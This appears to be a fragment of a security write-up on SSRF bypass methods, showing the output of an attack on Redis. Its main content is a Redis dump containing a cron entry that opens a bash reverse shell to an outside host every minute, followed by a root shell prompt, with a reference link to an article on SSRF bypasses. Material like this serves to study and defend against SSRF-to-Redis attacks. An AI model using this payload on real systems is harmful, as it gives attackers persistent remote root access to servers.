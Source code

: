 ```
REDIS0006™@B
  

  
*/1 * * * * /bin/bash -i >& /dev/tcp/fuzz.wuyun.org/8080 0>&1
  

[root@10-6-17-197 ~]#
  
```

## Reference
[SSRF绕过方法总结](https://www.secpulse.com/archives/65832.html)    
 
